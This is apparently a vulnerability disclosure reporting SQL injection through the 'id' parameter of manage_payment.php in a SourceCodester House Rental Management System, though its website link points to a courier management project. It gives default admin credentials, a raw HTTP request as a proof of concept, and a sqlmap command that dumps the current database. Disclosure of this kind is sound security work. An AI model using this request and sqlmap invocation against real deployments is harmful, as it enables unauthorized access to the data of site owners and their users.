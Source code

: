### SQL injection vulnerability exists in Sourcecodester House Rental Management System

official website:https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

version:v1.0

route:/index.php?page=manage_payment&id=1

related code file:manage_payment.php

injection parameter:$_GET['id']

#### 1.Vulnerability analysis

After receiving the id parameter passed in through the get method in the manage_payment.php file, it is directly spliced into the SQL query statement for execution without any security filtering. An attacker can use this parameter to perform SQL injection to read arbitrary database information.

![image-20240523215136262](SourceCodester_House_Rental_Management_System_Sql_Inject-3.assets/image-20240523215136262.png)

#### 2.Vulnerability verification and exploit

After mayuri.infospace@gmail.com/rootadmin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
GET /index.php?page=manage_payment&id=1 HTTP/1.1
Host: 10.15.6.184:5000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ob0bdimnlspngt0ldq4p4s4ed0
Connection: close


```

python sqlmap.py -r 1.txt --batch --current-db

![image-20240523215206718](SourceCodester_House_Rental_Management_System_Sql_Inject-3.assets/image-20240523215206718.png)
